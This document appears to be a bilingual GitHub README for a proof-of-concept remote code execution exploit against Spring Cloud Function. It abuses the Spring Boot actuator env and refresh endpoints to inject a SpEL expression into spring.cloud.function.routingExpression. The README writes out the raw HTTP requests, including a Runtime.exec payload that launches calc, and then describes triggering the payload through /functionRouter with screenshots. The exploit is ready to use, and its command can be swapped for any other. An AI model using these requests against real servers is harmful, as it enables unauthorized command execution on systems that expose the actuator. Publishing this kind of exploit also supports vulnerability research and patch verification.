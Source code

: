 # springboot-actuator-routingExpression-rce

Spring Cloud Function SPEL injection with the help of actuator.

It is clearly like as the Spring Cloud Gateway rce(CVE-2022-22947).As we can request env endpoint of Spring boot actuator just like this below:

The first step is to revalue the spring.cloud.function.routingExpression  so that it produces an evil SPEL.

```

POST /actuator/env HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Content-Type: application/json
Content-Length: 109

{"name":"spring.cloud.function.routingExpression","value":"T(java.lang.Runtime).getRuntime().exec('calc')"}

```
The next step is to refresh the environment variables.

```
POST /actuator/refresh HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
```



# 基于Spring boot actuator的Spring-Cloud-Function SPEL注入
- Spring Coud Function 官方在最新版本3.2.3 已经修复了之前的commit为dc5128b 的SPEL注入漏洞。但笔者发现配置文件中的spring.cloud.function.routingExpression参数也存在SPEL注入点，因此理论上只要能够控制functionProperties.getRoutingExpression() 的值就能够触发这个漏洞。
- 当项目中引入了actuator 并且开启了env 端点，那么就可以实现RCE。

请求/env端点，写入配置：
![image](https://user-images.githubusercontent.com/79240946/165094266-0a008c95-9592-488f-9c79-85fcf568e676.png)


请求/refresh端点，刷新配置生效：
![image](https://user-images.githubusercontent.com/79240946/165094196-7a6cb6db-851b-46bf-941c-6fedf716721b.png)

最后通过请求/functionRouter 执行routingExpression 

![image](https://user-images.githubusercontent.com/79240946/165094327-40ca83a3-193a-460b-9836-636f229f5b4c.png)

# 更多
[公众号文章](https://mp.weixin.qq.com/s?__biz=MzIzMjYzNTQwMA==&mid=2247484304&idx=1&sn=ed5c807aaf0abdf07f27a26b23663238&chksm=e890aef7dfe727e16c28d1119a522b03c6e20e599ccd07cb4b36469aef4058f3d0a11cc7fb25#rd)
